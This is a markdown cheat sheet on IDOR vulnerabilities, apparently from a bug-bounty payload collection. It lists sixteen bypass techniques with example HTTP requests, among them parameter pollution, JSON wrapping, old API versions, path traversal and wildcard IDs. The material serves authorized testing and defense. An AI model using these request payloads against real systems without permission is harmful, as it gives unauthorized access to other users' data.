 # Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser
[...]
```
Try this to bypass
```
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution
```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234
[...]
```
Try this to bypass
```
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions
```
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```
GET /graphql
[...]
```
```
GET /graphql.php?query=
[...]
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d
```
Try this to bypass
```
GET /file?id=302
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111
```
Try this to bypass
```
POST /api/v1/users/profile/111
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id
```

14. Change request content type
```
Content-type: application/xml
```
Try this to bypass
```
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111
```
Try this to bypass
```
GET /api/users/*
```

16. Try google dorking to find new endpoint

